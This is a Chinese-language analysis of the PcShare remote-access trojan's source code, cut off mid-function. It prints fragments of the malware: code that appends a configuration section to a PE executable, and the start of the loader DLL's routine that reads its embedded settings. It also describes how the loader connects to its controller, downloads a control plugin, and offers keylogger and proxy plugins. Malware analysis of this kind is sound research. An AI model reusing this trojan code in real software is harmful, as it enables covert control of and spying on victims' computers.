 AddDataToPe代码片段：

```
    // 新节的RVA
    pNewSec->VirtualAddress = pPE_Header->OptionalHeader.SizeOfImage;

    //SizeOfRawData在EXE文件中是对齐到FileAlignMent的整数倍的值
    pNewSec->SizeOfRawData = DataLen;
    pNewSec->SizeOfRawData /= pPE_Header->OptionalHeader.FileAlignment;
    pNewSec->SizeOfRawData++;
    pNewSec->SizeOfRawData *= pPE_Header->OptionalHeader.FileAlignment;

    // 设置新节的 PointerToRawData
    pNewSec->PointerToRawData = nPeLen;

    // 设置新节的属性
    pNewSec->Characteristics = 0x40000040;      //可读,，已初始化

    // 增加NumberOfSections
    pPE_Header->FileHeader.NumberOfSections++;

    // 增加SizeOfImage
    pPE_Header->OptionalHeader.SizeOfImage += 
        (pNewSec->Misc.VirtualSize/pPE_Header->OptionalHeader.SectionAlignment + 1) * 
        pPE_Header->OptionalHeader.SectionAlignment;

    // 保存到文件
    HANDLE hFile = CreateFile(
        pPeFile,
        GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL );

```

PcMake 连接型DLL小马 编译文件名：PcMake.dll

通过源码分析Pcshare共有3个插件1、控制插件（即：PcMain.dll） 2、键盘记录插件（PcLkey.dll） 3、Sock5代理插件 后两个插件是会员版本专享。

PcMake这个插件初始化连接是使用TCP连接到控制端，然后下载控制插件。会员版本采用直接捆绑打包PcMain.dll控制插件方式，所以体积上会大一些。

这个小马插件特色不多，下面我主要分析的解密配置信息部分代码和上线代码。

定义：

```
#define PS_VER_ULONGLONG        0x1234567812345678

BOOL MyMainFunc::GetFileSaveInfo(LPVOID pInfoData, DWORD nInfoLen, HINSTANCE hInst)
{
    //文件数据
    DWORD nReadLen = 0;
    char m_DllName[MAX_PATH] = {0};
    GetModuleFileName(hInst, m_DllName, 200);
    HANDLE hFile = CreateFile(m_DllName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    DWORD nFileLen = GetFileSize(hFile, NULL);
    BYTE* pFileData = new BYTE[nFileLen];
    ReadFile(hFile, pFileData, nFileLen, &nReadLen, NULL);
    CloseHandle(hFile);
```